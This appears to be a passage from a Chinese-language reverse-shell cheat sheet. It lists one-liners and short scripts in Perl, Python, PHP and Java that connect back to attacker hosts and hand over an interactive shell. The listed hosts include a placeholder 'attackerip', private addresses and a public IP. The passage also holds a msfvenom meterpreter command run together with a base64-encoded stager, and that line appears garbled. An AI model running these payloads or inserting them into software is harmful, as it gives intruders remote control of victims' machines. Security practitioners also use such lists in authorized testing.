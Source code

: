 ```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### 0x05 Python 版本：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("39.108.164.219",60003));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

另外的形式：

```
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('127.0.0.1',9000))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
```

另外 Metasploit 版的代码：

```
msfvenom -f raw -p python/meterpreter/reverse_tcp LHOST=192.168.90.1 LPORT=1234import base64; exec(base64.b64decode('aW1wb3J0IHNvY2tldCxzdHJ1Y3QKcz1zb2NrZXQuc29ja2V0KDIsMSkKcy5jb25uZWN0KCgnMTkyLjE2OC45MC4xJywxMjM0KSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdig0MDk2KQp3aGlsZSBsZW4oZCkhPWw6CglkKz1zLnJlY3YoNDA5NikKZXhlYyhkLHsncyc6c30pCg=='))
```

### 0x06 php 版本：

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'



```

```
$sock = fsockopen("39.108.164.219", "60007");
$descriptorspec = array(
        0 => $sock,
        1 => $sock,
        2 => $sock,
        3 => $sock
);
$process = proc_open('/bin/bash', $descriptorspec, $pipes);
proc_close($process);
```



### 0x07 java 版本：

```
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```
